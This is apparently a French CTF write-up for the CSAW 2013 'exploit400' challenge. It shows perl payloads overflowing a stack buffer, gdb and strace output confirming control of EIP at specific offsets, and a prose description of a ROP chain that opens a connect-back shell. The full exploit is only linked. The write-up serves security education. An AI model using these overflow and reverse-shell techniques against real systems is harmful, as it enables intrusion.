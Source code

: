 ```yaml
---
title: CSAW-CTF-2013 - Exploit 400
date: 2013-09-23
tags: ctf
author: Tosh
layout: post
---
```


Voici un petit write-up pour le challenge exploit400 du CSAW-CTF 2013.

Vous pouvez trouver le binaire ici : [exploit400](https://repo.t0x0sh.org/ctf/2013/csaw/exploit400)

```
	$ file ./miteegashun
	./miteegashun: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV),
    statically linked, for GNU/Linux 2.6.24,
    BuildID[sha1]=41bbe92f629cbca9784458456d94282b2d2fd9e0, stripped
```

On a donc un ELF 32 bits statique et strippé.

L'avantage du binaire statique, c'est qu'on va avoir tout un tas de gadgets pour faire du ROP.

On remarque assez vite qu'en envoyant une longue chaine de caractère, on controle facilement EIP :

```
	$ perl -e 'print "A"x500;' | strace -i ./miteegashun
	[b7760424] execve("./miteegashun", ["./miteegashun"], [/* 32 vars */]) = 0
	[b77c1424] uname({sys="Linux", node="rand00m", ...}) = 0
	[b77c1424] brk(0)                       = 0x8ae6000
	[b77c1424] brk(0x8ae6d40)               = 0x8ae6d40

    ...

	[b77c1424] brk(0x8b07d40)               = 0x8b07d40
	[b77c1424] brk(0x8b08000)               = 0x8b08000
	[b77c1424] write(1, "Welcome to this demo of my explo"..., 93
    Welcome to this demo of my exploit mitigation
	This mitigation is unbeatable, prove me wrong
	) = 93
	[b77c1424] fstat64(0, {st_mode=S_IFIFO|0600, st_size=0, ...}) = 0

    ...

	[b77c1424] read(0, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 4096) = 500
	[b77c1424] read(0, "", 4096)            = 0
	[41414141] --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41414141} ---
	[????????] +++ killed by SIGSEGV (core dumped) +++
	Erreur de segmentation (core dumped)
```

Pour faciliter le débuguage avec GDB, j'ai utilisé un fifo :

```
	$ rm fifo; mkfifo fifo && perl -e 'print "A"x417 . "CCCC"' > fifo

	gdb$ r < fifo
	Starting program: /home/tosh/Downloads/./miteegashun < fifo
	Welcome to this demo of my exploit mitigation
	This mitigation is unbeatable, prove me wrong

	Program received signal SIGSEGV, Segmentation fault.
	--------------------------------------------------------------------------[regs]
	  EAX: 0x43434343  EBX: 0x00000000  ECX: 0x00000003  EDX: 0x080F04E1  o d I t s z a P c
	  ESI: 0x00000000  EDI: 0x08049770  EBP: 0x41414141  ESP: 0x080F0448  EIP: 0x43434343
	  CS: 0073  DS: 007B  ES: 007B  FS: 0000  GS: 0033  SS: 007BError while running hook_stop:
	Cannot access memory at address 0x43434343
	0x43434343 in ?? ()
	gdb$ x/20xw $esp
	0x80f0448:      0x41414141      0x41414141      0x41414141      0x41414141
	0x80f0458:      0x41414141      0x41414141      0x41414141      0x41414141
	0x80f0468:      0x41414141      0x41414141      0x41414141      0x41414141
	0x80f0478:      0x41414141      0x41414141      0x41414141      0x41414141
	0x80f0488:      0x41414141      0x41414141      0x41414141      0x41414141
```

On remarque quelque chose d'étrange : déjà, l'adresse de la stack est en 0x080fXXXX. On imagine donc que le binaire a sa propre stack située dans le segment DATA.

Ensuite, après avoir écrasé EIP, on retournera dans notre buffer lorsqu'on essayera de faire du ROP.

Essayons quelque chose :

```
	$ rm fifo; mkfifo fifo && perl -e 'print "A"x264 . "CCCC" . "B"x(413-264) . "DDDD"' > fifo

	gdb$ r < fifo
	Starting program: /home/tosh/Downloads/./miteegashun < fifo
	Welcome to this demo of my exploit mitigation
	This mitigation is unbeatable, prove me wrong

	Program received signal SIGSEGV, Segmentation fault.
	--------------------------------------------------------------------------[regs]
	  EAX: 0x44444444  EBX: 0x00000000  ECX: 0x00000003  EDX: 0x080F04E1  o d I t s z a P c
	  ESI: 0x00000000  EDI: 0x08049770  EBP: 0x41414141  ESP: 0x080F0448  EIP: 0x44444444
	  CS: 0073  DS: 007B  ES: 007B  FS: 0000  GS: 0033  SS: 007BError while running hook_stop:
	Cannot access memory at address 0x44444444
	0x44444444 in ?? ()
	gdb$ x/20x $esp
	0x80f0448:      0x43434343      0x42424242      0x42424242      0x42424242
	0x80f0458:      0x42424242      0x42424242      0x42424242      0x42424242
	0x80f0468:      0x42424242      0x42424242      0x42424242      0x42424242
	0x80f0478:      0x42424242      0x42424242      0x42424242      0x42424242
	0x80f0488:      0x42424242      0x42424242      0x42424242      0x42424242
```

Cette fois, on controle toute la chaine d'exécution !

Notre payload ressemblera à ça après calcul des différents offsets :

![Payload](/images/exploit400.png)

Il y a une petite difficultée supplémentaire : le file descriptor doit être fermée pour que le payload soit exécuté. On ne peut donc pas réutiliser la socket !
Vu que nous disposons d'une grosse quantité de gadgets, je me suis amusé à faire une ROP chain basé sur l'instruction int 0x80.
Elle exécute à la suite : socket()/connect()/dup2()/execv

Voilà l'exploit : [exploit400.pl](https://github.com/t00sh/ctf/blob/master/2013/csaw-ctf/exploit400.pl)


Par contre, le fichier contenant la clef s'affichait seulement avec ls -l (why ?!).
Un challenge plutôt sympa.
